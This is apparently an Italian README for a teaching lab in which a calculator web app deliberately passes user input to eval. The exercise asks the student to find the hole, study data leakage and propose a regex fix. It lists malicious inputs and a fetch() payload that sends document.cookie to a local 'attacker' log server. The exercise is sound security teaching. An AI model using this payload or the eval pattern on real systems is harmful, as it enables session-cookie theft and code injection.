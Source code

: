 # Obbiettivo
1. Utilizzare la calcolatrice per eseguire operazioni matematiche.
2. Scoprire la vulnerabilità nascosta (uso di eval) che permette l'esecuzione di codice arbitrario.
3. Analizzare come i dati (cookie, token, ecc.) vengono inviati al server di log (http://localhost:3001/attack-logs).
4. Proporre una soluzione per mitigare la vulnerabilità.
   - Suggerimento: utilizzare una regular expression: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Regular_expressions

## Test
### Input Valido
- Verificare prima il funzionamento della calcolatrice:
  - 5 + 10 * 2 --> Risultato: 25
  - Math.sqrt(16) --> Risultato: 4

### Input malevolo
- alert('HACKED!')
- document.cookie

## Simulare un Attacco
- Inserire nel campo input della calcolatrice questo comando:
`fetch('http://localhost:3001/log-attack?data=' + document.cookie).then(response => response.text()).then(data => data)`

- controlla nel web server dell'attaccante i dati sensibili della vittima che vengono memorizzati nel file attacks.log